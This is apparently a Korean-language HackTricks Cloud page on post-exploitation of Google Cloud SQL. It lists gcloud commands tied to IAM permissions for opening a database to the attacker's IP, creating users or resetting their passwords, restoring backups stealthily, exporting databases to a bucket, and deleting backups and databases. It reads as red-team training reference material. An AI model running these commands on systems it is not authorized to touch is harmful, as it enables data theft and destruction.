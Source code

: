 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Cloud SQL에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

데이터베이스에 연결하려면 **데이터베이스 포트에 대한 접근 권한**과 **사용자 이름** 및 **비밀번호**를 알아야 하며, IAM 요구 사항은 없습니다. 따라서 데이터베이스에 공용 IP 주소가 있다고 가정할 때 접근하는 쉬운 방법은 허용된 네트워크를 업데이트하고 **자신의 IP 주소가 접근할 수 있도록 허용하는 것입니다**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
**`--no-backup`**를 사용하여 데이터베이스의 **백업을 중단**하는 것도 가능합니다.

이것이 요구 사항이기 때문에 **`cloudsql.instances.connect`** 및 **`cloudsql.instances.login`**의 권한이 무엇인지 확실하지 않습니다. 아는 분은 PR을 보내주세요!

### `cloudsql.users.list`

데이터베이스의 **모든 사용자 목록**을 가져옵니다:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

이 권한은 **데이터베이스 내에 새로운 사용자를 생성**할 수 있게 해줍니다:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

이 권한은 **데이터베이스 내의 사용자 업데이트**를 허용합니다. 예를 들어, 비밀번호를 변경할 수 있습니다:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

백업에는 **오래된 민감한 정보**가 포함될 수 있으므로 확인하는 것이 흥미롭습니다.\
**데이터베이스 내에서 백업 복원**:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
더 은밀하게 수행하기 위해 현재 실행 중인 데이터베이스 대신 새 SQL 인스턴스를 생성하고 그곳에서 데이터를 복구하는 것이 권장됩니다.

### `cloudsql.backupRuns.delete`

이 권한은 백업을 삭제할 수 있습니다:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**데이터베이스를** Cloud Storage Bucket에 내보내어 거기서 접근할 수 있습니다:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Cloud Storage 버킷에서 데이터베이스 가져오기** (덮어쓰기):
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

db 인스턴스에서 데이터베이스를 삭제합니다:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **해킹 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하세요.

</details>
{% endhint %}
